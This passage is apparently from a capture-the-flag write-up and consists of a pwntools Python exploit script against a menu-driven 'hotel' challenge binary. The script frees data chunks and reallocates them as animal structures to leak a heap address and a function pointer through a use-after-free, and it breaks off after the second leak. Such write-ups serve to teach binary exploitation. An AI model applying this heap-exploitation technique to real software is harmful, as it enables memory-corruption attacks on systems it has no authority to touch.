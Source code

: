 ```py
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(f"{length}".encode())

    p.recvuntil(b">")
    p.sendline(f"{data}".encode())


def DeleteRoom(room):
    p.recvuntil(b">")
    p.sendline(b"4")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

def ViewRoom(room):
    p.recvuntil(b">") 
    p.sendline(b"3")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

def RegisterAddressData(room, address):
    p.recvuntil(b">")
    p.sendline(b"2")

    p.recvuntil(b">")
    p.sendline(f"{room}".encode())

    p.recvuntil(b">")
    p.sendline(address)

log.info("Checking a cat into room 0 and a dog into room 1")
CheckIn(0,1)
CheckIn(1,2)

log.info("Placing 8 A's in room 0 and 8 B's in room 1")
RegisterNewData(0, 10, "A"*8) #creating small chunks to be the same size as the animal chunks
RegisterNewData(1, 10, "B"*8)

log.info("Deleting data from room 0 and 1")
DeleteRoom(0)
DeleteRoom(1)

log.info("Checking cat into room 7")
CheckIn(7, 1)

ViewRoom(0) # Leak heap address of room 7 through data of room 0
p.recvuntil(b"We have registered the following data on the guest:")
p.recvline()
leak = u64(p.recvline()[:8].strip().ljust(8,b"\x00"))
heap_leak = hex(leak) + "ef0" # eh... sure ¯\_(ツ)_/¯, thx gdb

log.success(f"heap: {heap_leak}")

log.info("Checking dog into room 7")
CheckIn(7, 2) 

ViewRoom(0) # Leak get species address of room 7 through data of room 0
```